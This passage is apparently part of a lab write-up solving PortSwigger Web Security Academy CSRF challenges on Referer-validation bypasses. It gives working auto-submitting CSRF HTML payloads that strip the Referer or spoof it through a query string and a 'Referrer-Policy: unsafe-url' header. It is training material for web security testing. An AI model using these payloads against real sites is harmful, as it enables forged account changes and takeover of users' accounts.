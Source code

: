 We got this error with using non-related domains at referer header: "Invalid referer header"

We deleted the referer header, then we could make the request successfully.

POST /my-account/change-email -> Engagements Tools -> CSRF PoC Generator -> Include Auto-Submit Script(checked) -> Regenerate -> Add the meta tag with contents -> Copy HTML

**Exploit Server ->**

```
Body:

  <html>
    <!-- CSRF PoC - generated by Burp Suite Professional -->
    <meta name="referrer" content="no-referrer">
    <body>
    <script>history.pushState('', '', '/')</script>
      <form action="https://accc1f911e9210ebc0554ed9000a0090.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="test&#64;test&#46;com" />
        <input type="submit" value="Submit request" />
      </form>
      <script>
        document.forms[0].submit();
      </script>
    </body>
  </html>
```

### Lab: CSRF with broken Referer validation

This lab's email change functionality is vulnerable to CSRF. It attempts to detect and block cross domain requests, but the detection mechanism can be bypassed.

There is weak csrf validation. It checks just legit referer header.

```
POST /my-account/change-email HTTP/1.1
Referer: https://ac3a1fd81f88743bc0a2729b00e700ad.web-security-academy.net/my-account
...
email=test%40test.com
```

`Referer: https://exploit-acf71f421f2374fec07372a7011e0077.web-security-academy.net/?ac3a1fd81f88743bc0a2729b00e700ad.web-security-academy.net`

**Exploit Server ->**

```
Header:

  Referrer-Policy: unsafe-url
	
Body:

  <html>
    <!-- CSRF PoC - generated by Burp Suite Professional -->
    <body>
    <script>history.pushState('', '', '/?ac3a1fd81f88743bc0a2729b00e700ad.web-security-academy.net')</script>
      <form action="https://ac3a1fd81f88743bc0a2729b00e700ad.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="test&#64;test&#46;com" />
        <input type="submit" value="Submit request" />
      </form>
      <script>
        document.forms[0].submit();
      </script>
    </body>
```